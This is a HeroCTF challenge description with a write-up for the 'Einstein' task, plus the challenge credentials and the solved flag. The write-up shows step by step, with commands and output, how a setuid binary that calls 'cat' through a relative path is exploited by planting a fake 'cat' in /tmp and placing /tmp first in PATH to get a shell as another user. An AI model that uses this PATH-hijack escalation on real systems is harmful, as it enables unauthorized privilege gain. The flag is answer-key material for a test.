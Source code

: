 # Einstein

### Category

Misc

### Description

1. The laws of physics are the same for all observers in any inertial frame of reference relative to one another (principle of relativity).
2. The speed of light in vacuum is the same for all observers, regardless of their relative motion or of the motion of the light source.

Source: [https://en.wikipedia.org/wiki/Theory_of_relativity](https://en.wikipedia.org/wiki/Theory_of_relativity)

Credentials: `user:password`

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write Up

The `learn` binary essentially does two things :
1. Set the real and effective user id to the effective user id.
2. Read a file located in Einstein's home directory.

The important part to spot here, is the way the file is read. The `system` syscall is used with the relative path of `cat`. This means that the program will go through the `$PATH` environment variable to find the first matching binary. The correct way to write this would have been to call `/bin/cat` instead of `cat` (well actually, the correct way would have been to use `open` and `read` syscalls, but that's another story).

To exploit this, we can create our own `cat` executable, and make sure it is the first one in the `$PATH` environment variable.

```
user@einstein:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)
user@einstein:~$ echo "bash" > /tmp/cat
user@einstein:~$ chmod +x /tmp/cat
user@einstein:~$ PATH=/tmp:$PATH ./learn
Welcome to this physics course! All information on this course is not copied from the internet without fact check and is completely riginal.

===================================

bash: /home/user/.bashrc: Permission denied
einstein@einstein:~$ id
uid=1001(einstein) gid=1000(user) groups=1000(user),100(users)
```

Here, we create a fake `cat` executable in `/tmp` that will execute `bash` instead. We then add the `/tmp` directory at the beginning of the `$PATH` environment variable, and run the `learn` binary. The `cat` binary will be found in `/tmp` before the real `cat` binary in `/bin`, and will execute `bash` instead.

PS: If you proceed like this, you will have to call `/bin/cat` to read the flag, since `cat` will execute `bash` instead.

### Flag

Hero{th30ry_of_r3l4tiv3_p4th5}